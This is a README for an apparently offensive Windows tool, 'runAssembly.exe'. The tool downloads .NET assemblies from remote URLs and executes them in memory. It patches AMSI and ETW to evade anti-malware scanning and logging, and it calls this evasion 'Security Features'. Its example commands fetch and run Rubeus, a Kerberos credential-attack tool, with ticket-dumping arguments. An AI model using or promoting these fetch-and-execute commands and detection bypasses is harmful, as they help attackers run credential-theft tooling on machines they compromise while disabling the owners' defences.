 # Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--] [extra_args]
```
![](./runAssembly.png)

[demo](https://www.youtube.com/watch?v=I_lFJISol0Q)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

